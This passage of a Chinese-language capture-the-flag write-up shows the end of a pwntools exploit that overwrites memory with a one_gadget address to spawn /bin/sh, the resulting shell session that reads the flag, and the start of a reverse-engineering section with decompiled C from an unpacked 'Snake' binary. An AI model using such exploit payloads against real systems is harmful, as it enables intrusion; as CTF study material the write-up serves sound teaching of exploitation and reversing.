 ```python

p.sendline('1'*8+'2'*8+'3'*7)
p.sendline('\x00'*0x10+'x'*8+p64(x.ogg(num=0)))
"""
[-] 0: 0x4f3d5  execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
"""
p.interactive()
```

再在远程`cat flag`.

```
[+] you choose gadget: 0x4f3d5
[*] Switching to interactive mode
$ ls
bin
dev
flag
lib
lib32
lib64
supercall
$ cat f*
flag{2f3f3632-6484-4c00-82f3-a63e0d4340d9}$
```

## RE

## Snake

发现题目有UPX壳，脱壳后，用ida打开审阅发现一疑似加密flag函数

```c
int sub_40186F()
{
  char v1[256]; // [esp+18h] [ebp-910h]
  char Dst[2048]; // [esp+118h] [ebp-810h]
  int j; // [esp+918h] [ebp-10h]
  int i; // [esp+91Ch] [ebp-Ch]

  sub_4021AD(22, 18);
  scanf("%s", v1);
  for ( i = 0; v1[i]; ++i )
    ;
  sub_4017D2(v1, i);#fun2
  memset(Dst, 0, 0x800u);
  sub_4015F7(v1, Dst, i); #fun1
  sub_4021AD(22, 20);
  for ( j = 0; Dst[j]; ++j )
  {
    if ( Dst[j] != a7g5d5bayTmdlwl[j] )
      return puts("不对哦~下次再来吧~");
  }
  return puts(asc_405016);
}
```
